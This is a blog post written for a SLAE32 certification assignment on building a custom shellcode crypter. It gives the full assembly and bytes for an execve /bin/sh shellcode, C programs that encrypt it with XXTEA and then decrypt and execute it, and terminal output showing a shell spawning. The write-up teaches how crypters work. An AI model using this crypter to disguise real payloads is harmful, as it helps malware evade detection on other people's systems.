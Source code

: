 ```yaml
---
title: "SLAE32: Creating custom crypter shellcode"
author: Travis Mathison
date: 2018-01-22 12:00:00 -0700
categories: [SLAE32]
tags: [assembly, x86, penetration-testing, hacking, exploit-development, shellcode, slae32]
---
```


### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #7

---

## Description
* Create a custom crypter like the one shown in the “crypters” video
* Free to use any existing encryption schema
* Can use any programming language

## Choosing a symmetric encryption algorithm
For the encryption and decryption of the shellcode I have chosen to use the Corrected Block TEA (XXTEA) block cipher.  Further reading on this implementation can be found here => [XXTEA](https://en.wikipedia.org/wiki/XXTEA).

<img src="{{ site.url }}/assets/img/slae32/07-01.png"/><br/>
One round of XXTEA [(Source)](https://en.wikipedia.org/wiki/XXTEA)<br/>

As to not reimplement XXTEA itself I discovered a C implementation of the cipher on github at [XXTEA encryption arithmetic library](https://github.com/xxtea/xxtea-c). This implementation will allow me to encrypt the shellcode and emmit it in shellcode form.

## Shellcode to encrypt
I will be using some shellcode from earlier to spawn a simple /bin/sh.  The assembly to spawn this shell is:
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes)
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```

The generated shellcode from objdump that we will encrypt is:
```
[sengen@manjaro-x86 assignment7]$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### Encrypting shellcode
For the encryption we will take the shellcode we generated above and hardcode it into our encrypt.c source code.  Utilizing the XXTEA algorithm we'll encrypt each byte and output it in shellcode format.

#### encrypt.c
```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./encrypt <key>");
        exit(1);
    }

    unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
    size_t shellcode_len = strlen((const char *) shellcode);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before encryption:");
    for (int counter = 0; counter < shellcode_len; ++counter) {
        printf("\\x%02x", shellcode[counter]);
    }

    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);

    printf("\n\nEncrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(encrypt_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)encrypt_data[counter], (int)encrypt_data[counter+1]);
    }

    printf("\n");

    return 0;
}
```
#### Compiling and running the encrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall encrypt.c xxtea.c xxtea.h -o encrypt
[sengen@manjaro-x86 assignment7]$ ./encrypt slae32-assembly-expert
Shellcode before encryption:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Encrypted shellcode:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e
```

### Decrypting shellcode
Now we have an encrypted version of the shellcode.  We'll copy this out and place it into our decrypt.c program.  This does the opposite and performs the decryptions of each byte and again we'll print it to the screen.  Additionally, we'll now execute the shellcode which will spawn our /bin/sh.

```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./decrypt <key>");
        exit(1);
    }

    unsigned char encrypted_data[] = "\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e";
    size_t encrypted_data_len = strlen((const char *) encrypted_data);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before decryption:");
    for (int counter = 0; counter < encrypted_data_len; ++counter) {
        printf("\\x%02x", encrypted_data[counter]);
    }

    size_t len;
    unsigned char *decrypted_data = xxtea_decrypt(encrypted_data, encrypted_data_len, key, &len);

    printf("\n\nDecrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(decrypted_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)decrypted_data[counter], (int)decrypted_data[counter+1]);
    }

    printf("\n\nExecuting shellcode.");

    int (*ret)() = (int(*)())decrypted_data;
    ret();

    return 0;
}
```

#### Compiling and running the decrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall decrypt.c xxtea.c xxtea.h -o decrypt
[sengen@manjaro-x86 assignment7]$ ./decrypt slae32-assembly-expert
Shellcode before decryption:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e

Decrypted shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00

sh-4.4$
```

### Source code
All source code for this assignment can be found at<br/>
 [https://github.com/tdmathison/SLAE32/tree/master/assignment7](https://github.com/tdmathison/SLAE32/tree/master/assignment7).
